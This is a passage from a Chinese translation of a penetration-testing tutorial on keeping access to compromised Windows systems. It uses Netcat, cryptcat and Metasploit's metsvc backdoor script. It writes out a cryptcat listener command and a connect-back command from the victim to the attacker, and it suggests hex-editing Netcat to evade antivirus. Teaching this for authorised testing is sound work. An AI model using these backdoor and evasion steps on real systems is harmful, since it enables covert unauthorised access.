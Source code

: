     ```

*   从交互式 Windows shell 中输入以下命令：

    ```
    C:\windows\system32>shutdown –r –t 00

    ```

要远程访问受损系统，在命令提示下键入`nc`，指示连接的详细程度（`-v`报告基本信息，`-vv`报告更多信息），然后输入目标的 IP 地址和端口号，如下图所示：

![Employing Netcat as a persistent agent](graphics/3121OS_06_07.jpg)

不幸的是，使用 Netcat 有一些限制—传输的数据没有身份验证或加密，几乎所有防病毒软件都能检测到。

可以使用**cryptcat**一种 Netcat 变体**cryptcat**解决缺乏加密的问题，该变体使用 Twofish 加密在受攻击主机和攻击者之间传输数据时保护数据。Twofish encryption 由 Bruce Schneier 开发，是一种先进的对称分组密码，为加密数据提供了相当强大的保护。

要使用`cryptcat`，请使用以下命令确保已准备好侦听器并配置了强密码：

```
root@kali:~# cryptcat –k password –l –p 444

```

接下来，上传`cryptcat`到受损系统，并使用以下命令将其配置为连接到侦听器的 IP 地址：

```
C:\cryptcat –k password <listener IP address> 444

```

不幸的是，大多数防病毒应用程序仍然可以检测到 Netcat 及其变体。可以使用十六进制编辑器来更改 Netcat 的源代码，从而使 Netcat 不可检测；这将有助于避免触发防病毒软件的签名匹配操作，但这可能是一个漫长的试错过程。更有效的方法是利用 Metasploit 框架的持久性机制。

# 使用 Metasploit 框架维护持久性

Metasploit 的`meterpreter`包含多个脚本，可在受损系统上支持持久性。我们将研究在受损系统上放置后门的两个脚本选项：`metsvc`和`persistence`。

## 使用 metsvc 脚本

`metsvc`脚本是`meterpreter`的网络服务包装器，允许将其用作 Windows 服务或作为命令行应用程序运行。它通常用作后门，以维持与受损系统的通信。

要使用`metsvc`，首先对系统进行妥协，然后将`meterpreter`迁移到`explorer.exe`流程，以获得更稳定的外壳。

通过调用`run`命令执行`metsvc`代理，如下图所示。如您所见，它创建一个临时安装目录，上传三个文件（`metsrv.dll`、`metsvc-server.exe`、`metsvc.exe`，然后启动`metsvc`。

![Using the metsvc script](graphics/3121OS_06_08.jpg)

为了与持久性`metsvc`代理交互，攻击者打开 Metasploit 框架并选择具有有效负载`windows/metsvc_bind_tcp`的`use exploit/multi/handler`，如下图所示。还设置了其他参数（IP 地址和端口）。

![Using the metsvc script](graphics/3121OS_06_09.jpg)

当执行`exploit`命令时，两个系统之间直接打开一个会话，允许从`meterpreter`命令行升级权限和其他功能。`exploit`命令的执行如下图所示：

![Using the metsvc script](graphics/3121OS_06_10.jpg)
